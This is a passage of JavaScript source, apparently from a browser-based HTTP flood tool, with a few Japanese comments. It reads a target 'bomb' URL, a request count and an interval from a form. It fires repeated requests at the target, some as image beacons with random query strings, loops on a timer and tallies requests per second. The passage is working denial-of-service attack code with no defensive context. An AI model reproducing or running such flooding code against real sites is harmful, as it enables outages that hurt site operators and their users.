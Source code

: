           Nowdate2 = Date.now();
          rps = 130 / (Nowdate2 - Nowdate) * 1000;
          await my_sleep(randRange(610, 900));


    } else if (mode==11) {
      //for (i=0; i<2; i++) {
        UrlGenerator();
        var pic = new Image();
        var rand = Math.floor(Math.random() * 1000)
        pic.src = URL+'/?'+rand+'=val'
        UrlGenerator();
        var pic = new Image();
        var rand = Math.floor(Math.random() * 1000)
        pic.src = URL+'/?'+rand+'=val'

      //}
      //await my_sleep(randRange(610, 900));

    } else {
        //もしもの時のため
        alert("[エラー] modeの値は" + mode + "です。これは不正な値です。")
    }
}

function modeselect() {
    mode = MODE;
    UrlGenerator();
    PostDataGenerator();
    HeaderInfoGenerator();
    Nowdate = Date.now();
    for(i = 0; i < m_inWinNum; i++) {
      RequestGenerator(mode);
      if (MODE==10) {
      //console.log("sleep at mode10")
      //sleep(randRange(610, 900));
      
    } else {}

    }
    bombCounter();
    Nowdate2 = Date.now();
    rps = m_inWinNum / (Nowdate2 - Nowdate) * 1000;
	  m_toDoing = setTimeout("modeselect()", m_inInterval);
    
}

//main-------------------------------------------------------------------
function main()
	{
		m_inInterval = document.m_form1.m_tbInterval.value;
		m_inWinNum = document.m_form1.m_tbWinNum.value;
		m_stBomburl = document.m_form1.m_tbUrl.value;
		postdata_from_user = document.m_form1.postdata_from_user.value;
		http_method = document.m_form1.SELECT.value;
		m_inCount = 0;
		wildcard_detect(postdata_from_user, m_stBomburl);
		if(IsUrlVaild==0 || IsPostdataVaild==0) {
			return false;
		} else {
			